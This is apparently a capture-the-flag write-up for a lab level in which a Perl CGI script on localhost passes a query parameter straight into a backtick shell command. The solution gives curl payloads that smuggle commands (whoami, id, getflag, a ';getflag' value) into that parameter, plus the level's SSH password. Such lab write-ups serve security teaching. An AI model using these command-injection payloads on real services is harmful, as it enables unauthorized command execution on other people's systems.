 # 04 

Login

```b
> ssh level04@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}') -p 4242
> Password: qi0maab88jeaj46qoumi7maus
```

We have a PERL script, \
and it seems to interact with a webpage:

```pl
#!/usr/bin/perl
# localhost:4747

use CGI qw{param};
  # CGI (Common Gateway Interface)
  # param: a CGI module func fetches params from HTTP requests
  # qw: quote words

print "Content-type: text/html\n\n";

sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
  # sub -- define subroutine x
  # $_[0] -- subroutine `x()` takes a single arg`
  # print w/ backticks invokes a shell command
  # 2>&1 -- combine stdout and stderr, & means 1 is a fd not a filename
}

x(param("x"));
  # 1st `x` : calling the subroutine
  # 2nd `x` : a query param
  # x comes in form of "...?x=getflag"
```

Solution
- try to scan and connect to `localhost:4242`
- set the query payload and Perl will echo it 

```b
> curl -I localhost:4747
or
> nc -vz localhost 4747
      ^ v: verbose
        z: scan if a port is open (a listening daemon)
Connection to localhost 4747 port [tcp/*] succeeded!

# eg.
> curl localhost:4747/?x="\`/usr/bin/whoami\`" 
> curl localhost:4747/?x="\`/usr/bin/id\`" 
> curl localhost:4747/?x="\`/bin/hostname\`" 
> curl localhost:4747/?x="\`/bin/pwd\`" 
> curl localhost:4747/?x="\`/bin/df\`" 


# whereis or which : avoid typing realpath out
> curl localhost:4747/?x="\`$(whereis pwd|awk '{print $2}')\`"
> curl localhost:4747/?x="\`$(which pwd)\`" 🟢 


# solve
> curl localhost:4747/?x="\`$(which getflag)\`"
or
> curl --get --data-urlencode 'x=;getflag' http://localhost:4747
```

